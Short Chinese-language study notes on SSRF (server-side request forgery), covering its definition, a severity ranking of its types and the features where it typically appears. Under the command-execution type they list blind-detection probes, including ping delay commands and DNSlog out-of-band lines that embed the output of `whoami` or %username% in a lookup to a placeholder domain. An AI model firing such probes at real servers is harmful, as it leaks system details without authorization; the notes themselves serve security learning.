 **什么是SSRF漏洞**

SSRF(Server-Side Request Forgery:**服务器端请求伪造**) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。**一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。**

正式因为他是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内网服务器。

**SSRF漏洞类型**

- 命令执行型【高危】
  - 有回显
  - 无回显
    - ping延时判断
      - Linux  ping 127.0.0.1 -c 5
      - windows  ping -n 5 127.0.0.1
    - ping dnslog带外
      - Linux  ping `whoami`.xxxx.cn
      - windows  ping%username%.xxxx.cn
- 内容读取型【中危】
  - 有回显【高危】
  - 无回显【中危】
- 请求类型【低危】
  - 泄露真实IP
  - 造成拒绝服务攻击
  - 容易被作为代理池使用
  - 有没有回显
    - 无回显【低危】
    - 有回显探测内网应用 【中危】

有回显一般为中危，无回显是低危。

**SSRF漏洞存在位置**

- 图片编辑功能
- 头像上传处
- 分享链接处
- 翻译内容处
